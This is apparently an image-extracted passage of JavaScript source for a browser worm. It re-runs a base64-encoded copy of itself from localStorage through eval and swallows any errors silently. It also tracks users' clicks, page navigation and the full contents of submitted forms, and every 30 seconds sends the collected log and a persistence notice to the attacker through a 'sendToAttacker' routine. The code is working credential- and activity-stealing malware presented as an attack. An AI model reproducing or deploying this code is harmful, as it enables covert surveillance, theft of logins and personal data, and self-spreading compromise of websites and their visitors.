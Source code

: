 ```
            if (storedWorm) {
                try {
                    eval(atob(storedWorm));
                } catch (e) {
                    // Fail silently
                }
            }
        };
        
        this.sendToAttacker('persistence_established', { method: 'localStorage' });
    }
    
    startMonitoring() {
        // Monitor user activity
        let activityLog = [];
        
        // Track clicks
        document.addEventListener('click', (e) => {
            activityLog.push({
                type: 'click',
                target: e.target.tagName,
                className: e.target.className,
                id: e.target.id,
                timestamp: Date.now()
            });
        });
        
        // Track form submissions
        document.addEventListener('submit', (e) => {
            const formData = new FormData(e.target);
            const formObject = {};
            formData.forEach((value, key) => formObject[key] = value);
            
            activityLog.push({
                type: 'form_submit',
                action: e.target.action,
                data: formObject,
                timestamp: Date.now()
            });
        });
        
        // Track navigation
        let lastUrl = window.location.href;
        setInterval(() => {
            if (window.location.href !== lastUrl) {
                activityLog.push({
                    type: 'navigation',
                    from: lastUrl,
                    to: window.location.href,
                    timestamp: Date.now()
                });
                lastUrl = window.location.href;
            }
        }, 1000);
        
        // Send activity log periodically
        setInterval(() => {
            if (activityLog.length > 0) {
                this.sendToAttacker('activity_log', activityLog);
                activityLog = [];
            }
        }, 30000);
    }
```